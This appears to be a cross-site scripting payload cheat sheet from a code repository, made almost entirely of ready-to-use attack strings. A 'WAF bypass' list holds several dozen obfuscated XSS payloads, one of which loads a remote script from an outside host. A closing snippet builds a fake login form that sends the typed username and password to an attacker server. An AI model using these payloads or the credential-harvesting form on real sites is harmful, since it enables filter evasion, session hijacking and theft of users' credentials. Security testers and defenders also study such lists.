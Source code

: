 ### WAF bypass
```
<a href="javascript&colon;alert&lpar;document&period;cookie&rpar;">REDIRECT TO LOGIN</a>
<iframe/src="data:text/html,<svg onload=alert(1)>">
<iframe src=""/srcdoc='<svg onload=alert(1)>'>
<img/id="alert('XSS')\"/alt=\"/\"src=\"/\"onerror=eval(id)>
<iMG onerror="top['loc\u{61}tion'] = 'javascript:alert\u{28})'" src />
<img src=1 alt=al lang=ert onerror=top[alt+lang](0)>
<img src='1' onerror='alert(0)' <
<img src=1 onerror="s=document.createElement('sCriPt');s.src='http://xss.rocks/xss.js';document.body.appendChild(s);"
<iMG src &gt; onerror="alert&#x000000028;&#x29;" />
<iMG src onload=%ff%00%ffAAA onerror=alert() />
<img src="/" =_=" title="onerror='prompt(1)'">
<img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)>
<iNpUt %253e onfocus="&#x000000000000000000000000000000061;lert()" autofocus />
<iNpUt /&#62; id=""onfocus="window['\a\l\ert']()" autofocus/>
<iNpUt &gt; id="x"onfocus="window['\a\l\ert']()" autofocus />
<iNpUt type=image src onerror="prompt(1)">
<iNpUt type=im&#x000000000000000000000000000000061;ge &gt; id="x"oNerRor="window['\a\l\ert']()" src />
<iNpUt x='&#39; /> ' id=""onfocus="window['\a\l\ert']()" autofocus/>
<iNpUt x="&quot; /> " id=""onfocus="window['\a\l\ert']()" autofocus/>
<iNpUt x="&#x22; /> " id=""onfocus="window['\a\l\ert']()" autofocus/> 
<oBjECt data="javascript:window['\a\l\ert']()" />
<sCriPt>$=1,alert($)</sCriPt>
<sCriPt>$=1,\u0061lert($)</sCriPt>
<sCriPt>alert``</sCriPt>
<sCriPt ~~~>confirm(1)</sCriPt ~~~>
<sCriPt>eval('alert\x280\x29');</sCriPt>
<sCriPt>Function('alert\x280\x29')();</sCriPt>
<</sCriPt/sCriPt><sCriPt>eval('\\u'+'0061'+'lert(1)')//</sCriPt>
<</sCriPt/sCriPt><sCriPt ~~~>\u0061lert(1)</sCriPt ~~~>
<sCriPt>setTimeout('alert\x280\x29',0);</sCriPt>
<sCriPt>window.location='javascript:alert(0)';</sCriPt>
<sCriPt x> alert(1) </sCriPt 1=2
<sCriPt x>alert('XSS')<sCriPt y>
</style></sCriPt><sCriPt>alert(1)</sCriPt>
<svg><animate onbegin=alert() attributeName=x></svg>
<svg id=`x`onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg onload=alert(1)//
<svg////////onload=alert(1)>
<svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//
<svg><x><sCriPt>alert('1'&#41</x>
&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#97;&#108;&#101;&#114;&#116;&#40;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;
&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x64;&#x6f;&#x63;&#x75;&#x6d;&#x65;&#x6e;&#x74;&#x2e;&#x63;&#x6f;&#x6f;&#x6b;&#x69;&#x65;&#x29;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;
```

### Fake authentication form sending credentials to remote server

    <input type="text" name="username" id="username" /><input type="password" name="password" id="password" /><script>function sleep(ms){return new Promise(r => setTimeout(r,ms));}sleep(3000).then(()=> {var user =document.getElementById('username').value;var pass = document.getElementById('password').value;var user_pass = user+"_"+pass;fetch("https://[YOUR_SERVER]?u="+user_pass);});</script>
